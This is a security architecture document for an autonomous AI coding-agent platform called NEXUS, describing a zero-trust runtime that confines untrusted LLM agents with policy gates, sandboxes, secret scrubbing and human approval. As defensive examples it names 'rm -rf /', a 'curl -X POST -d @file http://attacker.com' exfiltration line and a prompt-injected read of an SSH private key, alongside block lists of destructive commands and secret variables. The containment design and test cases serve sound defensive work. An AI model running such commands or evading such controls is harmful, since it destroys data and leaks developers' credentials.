# NEXUS — Security Policy Enforcement & Zero-Trust Runtime Architecture

---

## 1. Executive Summary

NEXUS is an autonomous, local-first AI Software Engineering Command Center that operates directly on developer workstations (Windows desktop `.exe`, with future macOS/Linux support) with companion mobile observability and control via Android (`.apk`/`.aab`).

While high-level threat models and security principles outline *what* risks exist, this document defines **how NEXUS technically enforces zero-trust security boundaries at runtime**. 

In an autonomous multi-agent environment where LLMs write, test, debug, execute, commit, and deploy software, **system prompts and LLM alignment are NOT security boundaries**. Autonomous models can suffer from prompt injection, generate dangerous terminal commands, hallucinate destructive operations, attempt network exfiltration, or access unauthorized repository files.

The **NEXUS Zero-Trust Runtime Architecture** treats all agents, tools, workflows, plugins, subprocesses, and external providers as potentially hostile or compromised principals. Security is enforced through an out-of-band, deterministic, non-bypassable policy execution layer. Every sensitive operation undergoes continuous identity verification, contextual authorization, capability validation, filesystem sandboxing, network filtering, and risk-calibrated human approval before any byte is written or any process is spawned.

---

## 2. Security Objectives

| Objective Identifier | Goal | Architectural Mechanism |
| :--- | :--- | :--- |
| **SO-01: Zero-Trust Verification** | Explicitly authenticate, authorize, and validate every operation at every step. | Immutable `SecurityContext` propagation and multi-tier Policy Decision Points (PDPs). |
| **SO-02: Non-Bypassable Enforcement** | Prevent any agent or plugin from executing side effects outside security gates. | OS-level Policy Enforcement Points (PEPs) intercepting all File, Shell, Git, Network, and DB calls. |
| **SO-03: Prompt-Independent Safety** | Security guarantees hold even if the underlying LLM is fully subverted via prompt injection. | Deterministic out-of-band code wrappers, path canonicalizers, and AST command validators. |
| **SO-04: Least-Privilege Confinement** | Execution units receive strictly the capabilities, directories, and tokens required for the task. | Fine-grained Capability Tokens, path allowlists, and scrubbed subprocess environments. |
| **SO-05: Human Governance at Scale** | Seamless developer approval for high-risk operations without approval fatigue. | Dynamic risk scoring (`LOW`, `MEDIUM`, `HIGH`, `CRITICAL`) and instant Desktop/Android push modals. |
| **SO-06: Absolute Secret Isolation** | Zero exposure of plaintext API keys or credentials to agents, logs, or child processes. | `secret://` URI indirection, hardware DPAPI vaults, process environment scrubbing, and regex redaction. |
| **SO-07: Emergency Containment** | Instant kill switch and lockdown capabilities during detected anomalies or runaway loops. | Centralized Process Supervisor, process-tree termination, network isolation, and global lockouts. |

---

## 3. Existing Architecture Dependencies

This architecture directly integrates with and builds upon established NEXUS architectural specifications:

```
┌─────────────────────────────────────────────────────────────────────────────┐
│                       NEXUS Existing Architecture Ecosystem                 │
├─────────────────────────────────────────────────────────────────────────────┤
│ • Security & Threat Model (§9)         ──► Threat taxonomy & baseline rules │
│ • Tool & Capability Registry (§20)     ──► Tool sandboxing & schema bounds  │
│ • Config, Secrets & Env (§21)          ──► DPAPI vaults & `secret://` URIs  │
│ • Workflow, Automation & Policy (§22)  ──► DAG steps & policy decision flow │
│ • Task Lifecycle Orchestration (§14)   ──► Task boundary & step transitions │
│ • Notifications & Real-Time Sync (§19) ──► SSE streaming & mobile approvals │
│ • AI Model Runtime & Provider (§17)    ──► Out-of-band LLM invocation gates │
│ • Observability & Audit (§8)           ──► Tamper-resistant audit logging   │
└─────────────────────────────────────────────────────────────────────────────┘
```

---

## 4. Security Actors & Principal Taxonomy

Every runtime entity within NEXUS is modeled as a strongly identified **Security Principal**:

```
┌─────────────────────────────────────────────────────────────────────────────┐
│                            NEXUS Security Principals                        │
├──────────────────────────┬──────────────────────────────────────────────────┤
│ Principal Type           │ Description & Trust Posture                      │
├──────────────────────────┼──────────────────────────────────────────────────┤
│ **Local Developer User** │ Primary human operator; full sovereign authority.│
│ **NEXUS Core Supervisor**│ Core backend runtime; trusted orchestrator.      │
│ **Autonomous AI Agent**  │ Planner, Developer, Tester, Reviewer (Untrusted).│
│ **Tool Executor**        │ File, Shell, Git, Docker invocation adapters.    │
│ **Third-Party Plugin**   │ Sandboxed extensions with declared capabilities. │
│ **Workflow Engine**      │ Automated DAG pipeline execution state machine.  │
│ **Child Subprocess**     │ OS-level spawned process (compiler, test runner).│
│ **Docker Sandbox**       │ Containerized execution environment.             │
│ **Android Companion**    │ Authenticated mobile client for approvals & logs.│
│ **External Provider**    │ Anthropic, OpenAI, Ollama, GitHub APIs.          │
└──────────────────────────┴──────────────────────────────────────────────────┘
```

---

## 5. The Security Context (`SecurityContext`)

Every internal request carries an immutable, cryptographically signed `SecurityContext` data structure:

```
SecurityContext
├── execution_id: UUID (Unique trace identifier)
├── principal:
│   ├── principal_type: PrincipalType (USER, AGENT, PLUGIN, SYSTEM, WORKFLOW)
│   ├── principal_id: string (e.g., "agent_developer_v2", "plugin_jira")
│   └── role: string (e.g., "DEVELOPER", "SECURITY_REVIEWER")
├── workspace_id: string
├── project_id: string
├── task_id: string
├── workflow_run_id: string | null
├── environment_profile: EnvironmentProfile (DEV, TEST, PROD, CI)
├── granted_capabilities: set[Capability] (e.g., {"filesystem.read", "git.commit"})
├── active_risk_tier: RiskLevel (LOW, MEDIUM, HIGH, CRITICAL)
├── sandbox_mode: SandboxMode (HOST_SANITIZED, DOCKER, READ_ONLY)
├── authenticated_session:
│   ├── user_id: string
│   └── auth_type: AuthType (LOCAL_TOKEN, MUTUAL_TLS, LOOPBACK_SECRET)
└── created_at: Timestamp (UTC)
```

---

## 6. Request Authorization Model

NEXUS processes every side-effecting operation through a multi-stage deterministic authorization pipeline:

```
Request Emitted (Agent / Tool / Plugin / Workflow)
                       │
                       ▼
         [Stage 1: Identity & Token Check]
                       │
                       ▼
        [Stage 2: Capability Grant Matrix]
                       │
                       ▼
        [Stage 3: Hierarchical Policy Engine]
                       │
                       ▼
       [Stage 4: Dynamic Risk Classification]
                       │
                       ▼
        [Stage 5: Human Approval Gate Check]
                       │
                       ▼
       [Stage 6: Sandbox / Resource Enforcement]
                       │
                       ▼
       [ALLOW / DENY / SANDBOX / APPROVAL_REQUIRED]
```

---

## 7. Policy Decision Engine (PDE)

The centralized Policy Decision Engine evaluates security context and action parameters against hierarchical policy sets:
- **Decision Outputs**:
  - `ALLOW`: Operation is safe and authorized; executes immediately.
  - `DENY`: Operation violates static security policy or boundary; blocked immediately.
  - `REQUIRE_APPROVAL`: Operation is valid but exceeds risk threshold; halts awaiting human confirmation.
  - `SANDBOX`: Operation is allowed only within an isolated Docker/process sandbox.
- **Audit Logging**: Every decision is persisted with timestamps, actor IDs, policy rule matches, and diagnostic rationales.

---

## 8. Policy Enforcement Points (PEPs)

Security enforcement is hard-coded into concrete execution adapters (PEPs). An agent cannot write a file without passing through the Filesystem PEP:

```
┌─────────────────────────┬──────────────────────────────────────────────────┐
│ Enforcement Point (PEP) │ Technical Enforcement Mechanism                  │
├─────────────────────────┼──────────────────────────────────────────────────┤
│ **API PEP**             │ FastAPI token dependencies, loopback auth guards.│
│ **Tool Router PEP**     │ Capability verification before tool dispatch.    │
│ **Filesystem PEP**      │ Path canonicalization, boundary allowlist check. │
│ **Terminal / Shell PEP**│ AST command parsing, banned token filter.        │
│ **Git PEP**             │ Branch protection, force-push block, diff check. │
│ **Network PEP**         │ SSRF IP filter, DNS rebinding block, domain gate.│
│ **Secret PEP**          │ Vault DPAPI authorization, memory zeroization.   │
│ **Process PEP**         │ Environment scrubbing, resource quota supervisor.│
└─────────────────────────┴──────────────────────────────────────────────────┘
```

---

## 9. Multi-Tier Defense-in-Depth Architecture

```
┌─────────────────────────────────────────────────────────────┐
│ Layer 1: Local Loopback Auth & Session Identity             │
├─────────────────────────────────────────────────────────────┤
│ Layer 2: Role-Based Capability Matrix                       │
├─────────────────────────────────────────────────────────────┤
│ Layer 3: Hierarchical Security Policies (System -> Project) │
├─────────────────────────────────────────────────────────────┤
│ Layer 4: Out-of-Band Input/Path Canonicalization            │
├─────────────────────────────────────────────────────────────┤
│ Layer 5: Dynamic Risk Scoring & Human-in-the-Loop Gates     │
├─────────────────────────────────────────────────────────────┤
│ Layer 6: Subprocess Environment Sanitization & Scrubbing    │
├─────────────────────────────────────────────────────────────┤
│ Layer 7: OS-Level Container / Subprocess Sandboxes          │
├─────────────────────────────────────────────────────────────┤
│ Layer 8: Memory Zeroization & Multi-Layer Secret Redaction  │
├─────────────────────────────────────────────────────────────┤
│ Layer 9: Tamper-Resistant Append-Only Audit Logging         │
└─────────────────────────────────────────────────────────────┘
```

---

## 10. Capability-Based Security Model

Capabilities represent granular, unforgeable permissions granted to an execution context:

```
┌──────────────────────┬──────────────────────────────────────────────────────┐
│ Capability Group     │ Granular Capabilities                                │
├──────────────────────┼──────────────────────────────────────────────────────┤
│ **Filesystem**       │ `fs.read`, `fs.write`, `fs.delete`, `fs.search`      │
│ **Terminal / Process** `proc.spawn`, `proc.exec`, `proc.kill`                │
│ **Git & VCS**        │ `git.read`, `git.commit`, `git.branch`, `git.push`   │
│ **Network**          │ `net.http.client`, `net.websocket`, `net.dns`        │
│ **Secrets**          │ `secret.read.provider`, `secret.read.git`            │
│ **AI Model**         │ `ai.invoke.local`, `ai.invoke.cloud`                 │
│ **Tool & Plugin**    │ `tool.invoke.<name>`, `plugin.execute.<id>`          │
│ **System**           │ `sys.config.read`, `sys.config.write`, `sys.lockdown`│
└──────────────────────┴──────────────────────────────────────────────────────┘
```

---

## 11. Least-Privilege Agent Confinement

Agents operate under strict role-calibrated capability boundaries:

```
┌────────────────────────┬────────────────────────────────┬───────────────────┐
│ Agent Archetype        │ Allowed Capabilities           │ Denied Operations │
├────────────────────────┼────────────────────────────────┼───────────────────┤
│ **Planner**            │ `fs.read`, `fs.search`         │ `fs.write`, `proc`│
│ **Developer**          │ `fs.read`, `fs.write`, `proc`  │ `git.push`, `sec` │
│ **Tester**             │ `fs.read`, `proc.exec (tests)` │ `git.commit/push` │
│ **Security Reviewer**  │ `fs.read`, `fs.search`         │ `fs.write`, `proc`│
│ **Debugger**           │ `fs.read`, `fs.write`, `proc`  │ `git.push`        │
└────────────────────────┴────────────────────────────────┴───────────────────┘
```

---

## 12. Agent Security & Prompt-Independent Boundaries

NEXUS enforces a fundamental architectural axiom:
> **System prompts are instructions for reasoning; they are NEVER a security boundary.**

- All tool invocations emitted by LLMs are treated as **untrusted user input**.
- The Tool Router validates schemas, permissions, paths, and policies before dispatching execution to operating system APIs.
- Even if an agent outputs a malicious command (`rm -rf /` or `curl exfil.com`), the Tool and Filesystem PEPs intercept and block the call independently of model state.

---

## 13. Tool Invocation Security Pipeline

```
Agent Emits Tool Call JSON
             │
             ▼
[Tool PEP: Schema & Type Validation] ──► Invalid ──► [Reject & Return Error]
             │
             ▼
[Capability PEP: Agent Has Tool Perm?] ──► No ──► [DENY (Permission Denied)]
             │
             ▼
[Resource PEP: Path / Arg Sanitization] ──► Escape ──► [DENY (Path Violation)]
             │
             ▼
[Policy PEP: Risk Assessment & Approval] ──► High ──► [Approval Gate Prompt]
             │
             ▼
[Execute in Sanitized Subprocess] ──► Emit Output ──► [Multi-Layer Redaction]
```

---

## 14. Plugin Security & Capability Sandboxing

Third-party plugins execute under strict zero-trust constraints:
- **Manifest Declarations**: Plugins must declare all requested capabilities in their root `manifest.json`.
- **User Authorization**: Users explicitly review and grant plugin capabilities during installation.
- **Process Isolation**: Plugins run in dedicated isolated worker processes communicate strictly over JSON-RPC channels with resource and rate limits.

---

## 15. Workflow Execution Security

- Workflows cannot elevate privileges beyond the workspace policy baseline.
- Every individual step in a DAG executes under its own scoped `SecurityContext`.
- Subworkflows inherit the parent workflow's security envelope and cannot access out-of-scope repositories.

---

## 16. Task-Level Security Boundaries

- Each task binds to exactly one project root directory.
- Cross-project file reads or writes are blocked unless multi-project workspace federation is explicitly configured.
- Task completion releases all ephemeral memory allocations and revokes task-scoped temporary tokens.

---

## 17. Filesystem Security & Sandbox Enclosure

The Filesystem PEP enforces strict boundary rules:
- **Workspace Confinement**: Operations are restricted to the project root (`<repo_root>/**`).
- **Protected Paths**: System directories (`C:\Windows`, `/etc`, `/usr`), user profiles (`%USERPROFILE%\.ssh`, `~/.aws`), browser credential databases, and NEXUS internal secret stores (`%APPDATA%\Nexus\vault`) are hard-blocked from agent reads, writes, and deletes.

---

## 18. Path Security & Canonicalization Defense

To defeat path traversal attacks (`../`, symlinks, junctions, alternate data streams):
1. **Canonicalization**: Resolves paths to absolute physical disk representations via `os.path.realpath()` / `GetFinalPathNameByHandleW`.
2. **Prefix Boundary Check**: Verifies `Path(target).is_relative_to(project_root)`.
3. **Symlink Resolution**: Rejects symlinks pointing outside the project boundary unless explicitly whitelisted in project settings.

---

## 19. Terminal Security & Execution Controls

Terminal command execution is wrapped in multiple defensive filters:
- **Executable Whitelist**: Commands must match authorized developer binaries (`pytest`, `npm`, `pnpm`, `cargo`, `go`, `git`, `ruff`, `python`).
- **Direct Shell Avoidance**: Invokes processes directly via `CreateProcessW` / `execve` with structured argument vectors `argv[]`, bypassing shell interpreters (`cmd.exe`, `sh`) whenever possible to defeat argument injection.
- **Dangerous Token Blocking**: Blocks destructive commands (`rmdir /s /q C:\`, `dd`, `mkfs`, fork bombs).

---

## 20. Command Injection & Shell Abuse Defenses

```
Raw Agent Command String
            │
            ▼
[AST Command Lexer & Tokenizer] ──► Detect Chaining (';', '&&', '|', '`')
            │
            ▼
[Executable Extraction] ──► Verify against Authorized Toolchain List
            │
            ▼
[Argument Parsing] ──► Strip Dangerous Flags (--no-preserve-root, -f)
            │
            ▼
[Direct Process Dispatch: argv[]] ──► Zero Shell Wrapper Invocation
```

---

## 21. Network Security & Egress Filtering

By default, untrusted execution is **isolated from unrestricted internet access**:
- **Domain Whitelisting**: Outbound connections are restricted to declared provider endpoints (e.g., `api.anthropic.com`, `api.github.com`, `registry.npmjs.org`).
- **Localhost Guard**: Outbound requests to `127.0.0.1` / `localhost` are blocked unless targeted at explicit local provider daemons (e.g., Ollama at `11434`).

---

## 22. DNS Security & Rebinding Protection

- **IP Pinning**: Validates IP addresses resolved by DNS before socket connection.
- **Private Range Blocking**: Blocks public DNS hostnames that resolve to private IP blocks (`10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`, `127.0.0.0/8`, `169.254.0.0/16`).

---

## 23. Server-Side Request Forgery (SSRF) Protection

All outgoing HTTP requests from plugins, webhooks, and tools pass through a centralized **Validating HTTP Transport**:
- Rejects requests targeting cloud instance metadata endpoints (`http://169.254.169.254/`).
- Rejects non-standard protocols (`file://`, `gopher://`, `ftp://`).

---

## 24. Secret Security & Access Governance

- Secrets stored in Windows DPAPI / Keychain vaults are never decrypted into persistent files.
- Decrypted plaintext keys exist in volatile memory buffers wrapped with `SecureBytes` objects that zeroize memory upon context completion.

---

## 25. Multi-Layer Secret Leak Prevention

To prevent secrets from leaking into logs, task history, LLM context, or mobile feeds:
1. **Pre-Index Redaction**: Tree-Sitter AST chunker redacts high-entropy keys before committing code chunks to FTS5 / Vector stores.
2. **Log Redaction Filter**: Custom `structlog` processor matches regex patterns and known vault hashes, replacing values with `[REDACTED_SECRET]`.
3. **SSE Redaction**: Server-Sent Events streams to desktop and mobile are filtered before socket transmission.

---

## 26. Git Security & Branch Protection

- **Protected Branches**: Commits to `main`, `master`, and `release/*` are hard-blocked from automated agent pushes without human confirmation.
- **Force-Push Prohibition**: `git push --force` is restricted to `CRITICAL` risk tier and requires dual-confirmation approval.
- **Commit Integrity**: Agent commits are annotated with distinct author/committer metadata (`NEXUS Autonomous Agent <agent@nexus.local>`).

---

## 27. Repository Security & Workspace Boundaries

- Scans repository roots for `.git/config` tampering.
- Blocks execution of `.git/hooks/*` created or modified by AI agents without developer inspection.

---

## 28. Docker Sandbox & Container Isolation

For untrusted code compilation and testing:
- **Non-Root Execution**: Runs container processes as unprivileged user (`uid=1000`).
- **Read-Only Root Filesystem**: Container root `/` is mounted read-only; writes restricted to temporary `/tmp` tmpfs.
- **Resource Quotas**: Hard CPU limits (e.g., 2 cores) and memory ceilings (e.g., 2GB).
- **Network Mode**: Set to `none` for offline test suites; `bridge` with domain allowlist when package fetching is needed.

---

## 29. Child Process Security & Environment Scrubbing

Subprocesses never inherit raw host environment variables:
- **Blacklisted Variables**: Automatically scrubs `AWS_SECRET_ACCESS_KEY`, `GITHUB_TOKEN`, `SSH_AUTH_SOCK`, `DATABASE_URL`, and shell history paths.
- **Pristine Environment**: Injects only essential runtime variables (`PATH`, `SYSTEMROOT`, `TEMP`, `PYTHONPATH`).

---

## 30. Resource Security & DoS Protection

- **CPU Quota**: Process priority set to `BELOW_NORMAL_PRIORITY_CLASS` on Windows.
- **Memory Ceiling**: Monitors process memory; terminates tasks exceeding project limits.
- **Process Count Limit**: Limits max concurrent subprocesses per workspace (default: 10).

---

## 31. Adaptive Rate Limiting

- **Model Calls**: Throttles LLM invocations per minute to prevent runaway API costs.
- **Tool Invocations**: Caps tool call rate per agent (max 60 calls/minute).
- **API Endpoints**: Local API enforces token bucket rate limiting (100 req/sec per local client).

---

## 32. Data Sensitivity Classification Matrix

```
┌─────────────────┬───────────────────┬───────────────────────────────────────┐
│ Sensitivity Tier│ Data Types        │ Protection & Storage Rules            │
├─────────────────┼───────────────────┼───────────────────────────────────────┤
│ **PUBLIC**      │ Open-source code, │ Standard storage; unencrypted logs.   │
│                 │ public docs.      │                                       │
├─────────────────┼───────────────────┼───────────────────────────────────────┤
│ **INTERNAL**    │ Project configs,  │ Local SQLite; redacted logs.          │
│                 │ task steps.       │                                       │
├─────────────────┼───────────────────┼───────────────────────────────────────┤
│ **SENSITIVE**   │ User code diffs,  │ Local storage; encrypted backups.     │
│                 │ error traces.     │                                       │
├─────────────────┼───────────────────┼───────────────────────────────────────┤
│ **SECRET**      │ API keys, tokens, │ Hardware DPAPI vault; zeroized RAM;   │
│                 │ private keys.     │ strictly excluded from logs/context.  │
└─────────────────┴───────────────────┴───────────────────────────────────────┘
```

---

## 33. Runtime Trust Zones

```
┌─────────────────────────────────────────────────────────────┐
│ Zone 0: Hardware Keyring & Master Vault (Highest Trust)     │
├─────────────────────────────────────────────────────────────┤
│ Zone 1: NEXUS Core Supervisor & Policy Engine               │
├─────────────────────────────────────────────────────────────┤
│ Zone 2: AI Agent Reasoning Layer (Controlled Untrusted)     │
├─────────────────────────────────────────────────────────────┤
│ Zone 3: Sandboxed Tool Adapters & Plugins                   │
├─────────────────────────────────────────────────────────────┤
│ Zone 4: Host Subprocesses & Docker Containers (Untrusted)   │
├─────────────────────────────────────────────────────────────┤
│ Zone 5: External Providers & Remote Networks (External)     │
└─────────────────────────────────────────────────────────────┘
```

---

## 34. Security Boundaries & Isolation Barriers

```
[Zone 0: Vault] ◄──(DPAPI / Auth Gateway)──► [Zone 1: Core Engine]
                                                    │
                                         (Tool Router & Policy PEP)
                                                    │
                                                    ▼
[Zone 4: Subprocesses] ◄──(Pristine Env / Jail)──► [Zone 2: Agents & Tools]
```

---

## 35. Local Authentication & Session Tokens

- **Loopback Secret**: On startup, NEXUS generates a cryptographically random 256-bit loopback session token written to `%APPDATA%\Nexus\run\session.token`.
- **Bearer Token Auth**: Desktop UI, CLI, and internal adapters authenticate to the FastAPI backend using `Authorization: Bearer <session_token>`.

---

## 36. Local API & Web Interface Security

- **Origin Verification**: Restricts HTTP CORS and WebSocket origins strictly to `http://localhost:*` and Tauri desktop window schemas.
- **CSRF Protection**: State-changing endpoints require explicit anti-CSRF headers.

---

## 37. Desktop ↔ Android Companion Security

- **Device Pairing**: Out-of-band QR code exchange containing an ephemeral cryptographic pairing key.
- **Mutual TLS / Token Authentication**: All mobile API traffic is authenticated using per-device asymmetric key pairs.
- **Zero Secret Sync**: Master credentials, local file paths, and private keys are never transmitted to mobile clients.

---

## 38. Approval Security & Non-Repudiation

Approval prompts display full contextual diagnostics:
- Requesting Agent ID, Target File/Command, Computed Risk Tier, Projected Side Effects.
- Approval decisions are signed with local session tokens and recorded in the audit log.

---

## 39. Emergency Security Controls

1. **Emergency Process Kill**: Terminates all active child process trees and aborts running agent tasks instantly.
2. **Emergency Secret Lock**: Wipes in-memory decrypted key caches and locks vault access.
3. **Emergency Network Sever**: Disconnects all outbound HTTP clients.

---

## 40. System-Wide Security Lockdown Mode

When activated via UI, CLI (`nexus security lockdown`), or automated threat detection:
- All active workflows and agent tasks pause immediately.
- Outbound network requests are severed.
- Filesystem writes are locked to read-only mode.
- System requires explicit developer PIN/password entry to unlock.

---

## 41. Security Incident Response Workflow

```
[Threat Detected (Anomaly / Policy Breach)]
                   │
                   ▼
  [Automated Containment: Kill Task & Sandbox]
                   │
                   ▼
  [Snapshot Forensic Evidence (Logs & Context)]
                   │
                   ▼
  [Emit High-Priority Alert (Desktop & Android)]
                   │
                   ▼
  [Developer Investigation & Post-Mortem Record]
```

---

## 42. Audit Logging Architecture

All security decisions, approvals, and tool invocations are committed to SQLite `audit_logs` in WAL mode:
- **Columns**: `id`, `timestamp`, `principal_id`, `action`, `resource`, `decision`, `risk_level`, `policy_id`, `context_hash`.
- **Immutable & Redacted**: Append-only design with automated secret redaction.

---

## 43. Tamper Resistance & Log Integrity

- **Cryptographic Chaining**: Audit log entries carry a rolling SHA-256 hash chaining each record to its predecessor.
- **OS File Permissions**: The audit SQLite database file is set to restricted user-only permissions.

---

## 44. Policy Versioning & Immutability

- Security policies carry explicit version numbers.
- Active tasks bind to immutable policy snapshots taken at startup, ensuring that policy updates do not introduce mid-execution state anomalies.

---

## 45. Security Policy Verification Test Suite

- **Allow Tests**: Verifies benign read-only operations pass without friction.
- **Deny Tests**: Verifies path traversal, command injection, and SSRF attempts are blocked.
- **Approval Tests**: Verifies high-risk Git pushes trigger human approval modals.

---

## 46. Adversarial Penetration Testing

Simulates real-world attacks:
1. **Prompt Injection Escape**: Agent instructed to read `%USERPROFILE%\.ssh\id_rsa` ──► Blocked by Path PEP.
2. **Terminal Exfiltration**: Agent attempts `curl -X POST -d @file http://attacker.com` ──► Blocked by Network PEP.
3. **Child Env Harvesting**: Child script attempts to dump `os.environ` ──► All sensitive tokens scrubbed.

---

## 47. Security Observability & Metrics

- Tracks: `policy_evaluations_total`, `policy_denials_total`, `approval_requests_total`, `redaction_events_total`, `sandbox_violations_total`.
- Alarms on anomalous denial spikes (e.g., >5 policy violations in a single task).

---

## 48. Security Performance & Latency Targets

| Operation | Performance Target (P95) | Architectural Optimization |
| :--- | :--- | :--- |
| **Policy Evaluation** | `< 2 ms` | In-memory compiled rule trees and capability bitsets. |
| **Path Canonicalization** | `< 1 ms` | Native OS file handle resolution. |
| **Secret Token Auth** | `< 1 ms` | Constant-time in-memory HMAC comparison. |
| **Audit Log Commit** | `< 3 ms` | Asynchronous SQLite WAL commit queue. |

---

## 49. Failure Modes & Safe Degradation

- **Policy Engine Failure**: System fails **CLOSED** (blocks execution).
- **Secret Vault Failure**: Fails **CLOSED** (denies access).
- **Audit System Failure**: Halts critical task execution until audit logging is restored.

---

## 50. Fail-Closed vs. Fail-Safe Matrix

```
┌─────────────────────────┬──────────────┬────────────────────────────────────┐
│ Subsystem Component     │ Strategy     │ Rationale                          │
├─────────────────────────┼──────────────┼────────────────────────────────────┤
│ **Tool Router**         │ **FAIL-CLOSED** Denies tool execution if unknown. │
│ **Filesystem Access**   │ **FAIL-CLOSED** Blocks write if path is ambiguous.│
│ **Network Egress**      │ **FAIL-CLOSED** Blocks outbound connection.       │
│ **Risk Scoring**        │ **FAIL-CLOSED** Defaults to CRITICAL if error.    │
│ **UI Streamer**         │ **FAIL-SAFE**  Drops UI frames without halting core.
└─────────────────────────┴──────────────┴────────────────────────────────────┘
```

---

## 51. Architecture Diagrams

### 1. Zero-Trust Runtime Architecture



### 2. Request Authorization Flow



### 3. Policy Decision Engine Logic



### 4. Agent Security Boundary



### 5. Tool Security Boundary



### 6. Plugin Security Boundary

